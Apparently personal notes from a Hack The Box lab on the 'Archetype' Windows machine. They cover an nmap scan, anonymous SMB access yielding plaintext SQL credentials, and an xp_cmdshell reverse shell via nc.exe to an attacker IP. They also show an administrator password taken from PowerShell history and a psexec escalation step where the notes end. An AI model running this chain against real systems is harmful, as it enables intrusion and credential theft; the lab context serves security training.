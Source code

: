 #HackTheBox #linux 
# Machine Windows

# 1- Scan 
## Nmap
PORT      STATE SERVICE      VERSION
[135/tcp]   open  msrpc        Microsoft Windows RPC
[139/tcp]   open  netbios-ssn  Microsoft Windows netbios-ssn
[445/tcp]   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
[1433/tcp]  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2023-03-17T23:29:41+00:00; +9s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-03-17T23:23:54
| Not valid after:  2053-03-17T23:23:54
| MD5:   ccef1fe9d0c4440fe5d4157cace2222e
|_SHA-1: a9f3c7fff0a5b62e88081b45f474d625df8db71b
[5985/tcp]  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
[47001/tcp] open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Host script results:
|_clock-skew: mean: 1h45m08s, deviation: 3h30m00s, median: 8s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-17T23:29:30
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-17T16:29:29-07:00

# Pistes
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
Protocole SMB utilisé

# 2. Connexion smb
┌──(root㉿kali)-[/home/kali/Desktop/HTB]
└─# smbclient -N -L \\\\htb   
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available`
```
	                                                                                              
┌──(root㉿kali)-[/home/kali/Desktop/HTB]
└─# smbclient -N \\\\htb\\backups

## smb shell got & prod.dtsConfig downloaded
	smb: \> ls
	  .                                   D        0  Mon Jan 20 07:20:57 2020
	  ..                                  D        0  Mon Jan 20 07:20:57 2020
	  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
	smb: \> get prod.dtsConfig
	getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)

# Find
┌──(root㉿kali)-[/home/kali/Desktop/HTB]
└─# cat prod.dtsConfig                                                             
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

# 3. Connexion mssql
┌──(root㉿kali)-[/home/…/Desktop/tools/impacket/examples] 
└─# python3.11 mssqlclient.py ARCHETYPE/sql_svc@htb -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password: M3g4c0rp123

SQL (ARCHETYPE\sql_svc  dbo@master)> sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

# Exploitation 
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure; - Enabling the sp_configure as stated in the above error message EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;  #ExploitMssql 

## Revershell
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Documents; .\nc.exe -e cmd.exe 10.10.16.82 443"

# Foothold
## Find
[PS C:\Users\sql_svc\Documents>] cat  C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

# PrivEsc
┌──(root㉿kali)-[/home/kali/Desktop]
└─# python3.11 psexe.py administrator@htb whoami